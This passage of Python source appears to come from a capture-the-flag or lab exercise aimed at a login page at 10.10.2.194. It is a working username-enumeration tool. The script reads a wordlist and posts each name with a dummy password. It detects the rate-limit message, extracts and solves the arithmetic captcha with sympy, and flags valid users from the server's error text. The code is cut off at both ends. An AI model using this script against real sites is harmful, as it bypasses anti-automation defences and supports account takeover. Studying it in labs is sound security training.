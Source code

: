 ```py
            print(f'[*] Trying username: {username:20s} ({index + 1}/{listUsernamesLength})', end='\r')
            self.enumerateUsernameRequest(username)

            # thread = Thread(target=self.enumerateUsernameRequest, args=(username,))
            # thread.start()

            # # you can adjust how fast of each threads
            # sleep(0.1)

    def readFile(self):
        listUsernames = list()
        try:
            with open(self.usernameWordlist, 'r') as file:
                for line in file:
                    username = line.strip()
                    listUsernames.append(username)

                return listUsernames
        except FileNotFoundError:
            print(f'The file {self.usernameWordlist} doesn\'t exist.')

    def enumerateUsernameRequest(self, username):
        payload = {
            'username': username,
            'password': 'anything'
        }
        usernameRequest = requests.post(self.url, data=payload)
        isRateLimited = 'Too many bad login attempts!' in usernameRequest.text and 'The user' not in usernameRequest.text
        if isRateLimited:
            soup = BeautifulSoup(usernameRequest.text, 'html.parser')
            # grab pattern like '342 - 47'. Generated from ChatGPT
            pattern = r'(\d+\s*.\s*\d+)'
            captchaMatched = re.search(pattern, soup.text)
            if not captchaMatched:
                print('[-] No captcha found.')

            equation = captchaMatched.group(0)
            answer = sympy.sympify(equation)
            self.afterSolvedCaptchaRequest(username, answer)
            return

        isValidUser = not 'The user' in usernameRequest.text
        if isValidUser:
            print(f'[+] Found valid username: {username}')

    def afterSolvedCaptchaRequest(self, username, answer):
        payload = {
            'username': username,
            'password': 'anything',
            'captcha': answer
        }
        usernameRateLimitedRequest = requests.post(self.url, data=payload)
        isInvalidCaptcha = 'Invalid captcha' in usernameRateLimitedRequest.text
        isValidUser = not 'The user' in usernameRateLimitedRequest.text
        if isInvalidCaptcha:
            print('[-] Captcha failed.')
        if isValidUser:
            print(f'[+] Found valid username: {username}')

if __name__ == '__main__':
    url = 'http://10.10.2.194/login'
```